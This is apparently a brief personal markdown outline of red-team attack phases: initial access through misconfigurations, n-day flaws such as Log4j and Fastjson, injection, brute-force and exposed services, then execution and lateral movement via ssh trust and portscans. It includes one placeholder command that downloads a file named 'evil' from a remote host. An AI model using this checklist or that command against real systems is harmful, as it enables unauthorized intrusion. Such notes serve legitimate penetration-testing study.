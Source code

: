 ## Initial Access
### 1. Misconfigure
- Nginx config
  - files: config / history / codes / authorization /
  - upload

- Spingboot Actuator
- Cloud Service

### 2. Vulnerability
- SQL Injection : [clickhouse](https://blog.deteact.com/yandex-clickhouse-injection/)
- Open-source Nday:
  - Fastjson
  - Log4j
  - Shiro
- Third-party products Nday:
- XSS : POST / DOM 
- File upload : 

### 3. API Pentest
- sensitive APIs in js files
- path brute-force : wordlists

### 4. Open Port
- high-risk brute-force
- sensitive ports
  - Unauthorization Access
  - Specific scene : [IOT](https://cloud.tencent.com/developer/article/1776815)
- JRMP/[JMX](https://www.anquanke.com/post/id/200682)/RMI 


## Execution
- curl xxx/xx -o evil
- 

## Lateral move
- trust relationship : ssh
- portscan : ssh/redis/web
- 

## Reference
- [RedTeam-Tools_github](https://github.com/A-poc/RedTeam-Tools)
